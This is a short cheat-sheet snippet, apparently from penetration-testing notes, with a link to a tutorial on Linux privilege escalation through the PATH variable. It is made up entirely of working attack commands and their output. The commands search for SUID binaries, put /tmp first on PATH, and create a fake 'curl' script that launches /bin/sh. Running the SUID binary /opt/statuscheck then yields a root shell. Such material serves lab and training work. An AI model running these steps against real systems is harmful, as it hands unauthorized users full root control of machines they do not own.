https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/ <- **Check.**

```bash
VICTIM:
$ find / -perm -u=s -type f -exec ls -l {} \; 2>/dev/null
		-rwsr-xr-x 1 root root 8640 Jun 28  2019 /opt/statuscheck #The binary use curl without the absolute PATH
																  # We have to create a binary named curl on a writable folder (ex: /tmp)
																  # And then, make a evil script to execute a shell in our CURL BINARY

$ export PATH=/tmp:$PATH

$ nano curl
		#!/bin/sh
    	/bin/sh
		
$ chmod +x curl

$ /opt/statuscheck

# whoami
	root
```

